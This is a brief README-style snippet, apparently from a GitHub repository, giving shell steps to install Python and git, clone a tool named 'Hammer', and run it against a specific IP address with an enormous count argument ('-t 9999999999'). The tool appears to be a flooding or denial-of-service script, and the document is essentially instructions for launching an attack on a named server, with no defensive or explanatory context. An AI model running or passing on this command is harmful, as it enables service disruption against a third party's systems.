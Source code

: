 # kha90
$ apt update $ apt upgrade $ apt install python $ apt install git $ apt install dnsutils $ git clone $ cd Hammer $ python3 hammer.py -s [46.4.45.211] -t 9999999999
